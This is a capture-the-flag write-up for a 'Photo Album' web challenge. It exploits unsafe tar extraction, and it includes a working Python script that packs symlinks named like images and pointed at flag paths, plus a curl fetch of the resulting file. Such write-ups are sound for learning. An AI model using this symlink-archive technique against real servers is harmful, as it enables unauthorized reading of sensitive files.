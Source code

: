 
#  CTF Writeup: Photo Album (Web Exploitation)

##  Challenge Summary

The challenge provided a basic photo album web app where users could upload either image files (`.jpg`, `.png`, etc.) or a `.tar` archive containing images. The goal was to exploit this upload feature to retrieve a flag.

---

##  Recon and Source Review

From the source code (`app.py`), a few key details were observed:

###  Functionality:
- Accepts image uploads and `.tar` archives.
- Archives are extracted using `tarfile.extractall()`.
- Filters TAR contents to **only allow files with image extensions**.

###  Vulnerabilities:
1. **TAR Extraction Without Path Sanitization**  
   The app extracts uploaded `.tar` files using `tarfile.extractall()` **without validating the paths** inside, making it vulnerable to:
   - Path traversal (`../../`)
   - **Symbolic link attacks**

2. **MIME Type Based on Extension**  
   The server only checks file extensions, so you can upload files like `shell.jpg` containing PHP code, and the extension check will pass.

3. **No Checks on Symlinks Inside TAR**  
   The validation function only checks that each file in the TAR ends in `.jpg`, `.png`, etc. It doesn't check if the entry is a **symlink** pointing to a sensitive file.

---

##  Exploitation Strategy

Since I couldn’t guess the exact flag location, I created a script that builds a `.tar` archive with **multiple symlinks** named with image extensions (`.jpg`), each pointing to common flag paths.

---

##  `photo.py` – Brute-force Symlink TAR Generator

```python
import tarfile

paths = {
    "a.jpg": "/flag.txt",
    "b.jpg": "/flag",
    "c.jpg": "/app/flag.txt",
    "d.jpg": "/app/flag",
    "e.jpg": "/home/ctf/flag.txt",
    "f.jpg": "/home/ctf/flag",
    "g.jpg": "/root/flag.txt",
    "h.jpg": "/root/flag",
    "i.jpg": "/home/appuser/flag.txt",
    "j.jpg": "/home/appuser/flag",
    "k.jpg": "/srv/flag.txt",
    "l.jpg": "/srv/flag",
}

with tarfile.open("multi_flag_brute.tar", "w") as tar:
    for name, target in paths.items():
        info = tarfile.TarInfo(name=name)
        info.type = tarfile.SYMTYPE
        info.linkname = target
        tar.addfile(info)
```

---

## Uploading the Payload

Uploaded `multi_flag_brute.tar` via the site’s file upload form.

Then checked the exposed `.jpg` symlinks one by one. First try:

```bash
curl http://photo-album.hkn/static/albums/a.jpg
```

Output:
```
DDC{f4k3_im4g3_r34l_fl4g}
```

---

## 🏁 Flag

```
DDC{f4k3_im4g3_r34l_fl4g}
```
